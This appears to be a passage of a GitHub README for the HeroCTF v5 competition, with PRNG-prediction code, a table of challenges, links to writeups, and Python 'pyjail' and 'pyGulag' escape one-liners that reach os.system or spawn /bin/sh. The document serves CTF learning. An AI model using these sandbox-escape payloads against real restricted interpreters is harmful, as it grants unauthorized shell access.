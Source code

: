 ```python
            v = two_rands_to_float(n1, n2) * MAX
            print(f"Predicted next uniform rand {v:010.8f} ---> actual {u:010.8f}")
            assert( u == v )

```
#### pyjail solutions
```python
    >>> print("".__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['system']('sh'))
    >>> print.__self__.setattr(print.__self__.credits, "_Printer__filenames", ["pyjail.py"]),print.__self__.credits()
    >>> print(print.__self__.__loader__.load_module('bu''iltins').getattr(print.__self__.__loader__.load_module('o''s'),'sy''stem')('sh'))

```

#### pyGulag solutions
```python
    >>> print.__self__.__loader__.load_module('o''s').spawnv(0, "/bin/sh", ["i"])
    >>> print(print.__self__.__loader__().load_module('o' + 's').spawnvp(print.__self__.__loader__().load_module('o' + 's').P_WAIT, "/bin/sh", ["/bin/sh"]))
```
## Writeups
* Official writeups: https://github.com/HeroCTF/HeroCTF_v5/
* Blockchain writeups: https://github.com/J4X-98/Writeups/tree/main/CTFs/HeroCTF
* https://siunam321.github.io/ctf/HeroCTF-v5/
* https://mxcezl.github.io/posts/write-up/ctf/heroctf-v5/
* https://chrootcommit.github.io/tags/heroctfv5/
* Blockchain solves using `Foundry`: https://github.com/m4k2/HeroCTF-V5-WU-Foundry
* https://github.com/Kaiziron/heroctf-v5
* Youwatch: https://mizu.re/post/youwatch
* System challs: https://v0lk3n.github.io/writeup/HeroCTFv5/HeroCTFv5-SystemCollection
* https://github.com/deyixtan/ctf/tree/main/challenges/hero-ctf-2023
* 




## Challenges
|Category|Challenge|Description
|----|----|----
|Blockchain|Challenge 01 : Classic one tbh|
|Blockchain|Challenge 02 : Dive into real life stuff|
|Blockchain|Challenge 03 : You have to be kidding me..|
|Blockchain|Challenge 04 : Now this is real life|
|Blockchain|The Second Transaction and the Offshore Connection|
|Blockchain|The Third Transaction and the Insider|
|Blockchain|The arrest|
|Blockchain|Tracing the First Transaction|
|Crypto|Futile|LFSR+brute_force+
|Crypto|Hyper Loop|
|Crypto|Lossy|
|Crypto|Uniform|Symbolic Mersenne Twister, PRNG with float
|Forensic|Heap|Java Heap analysis + AES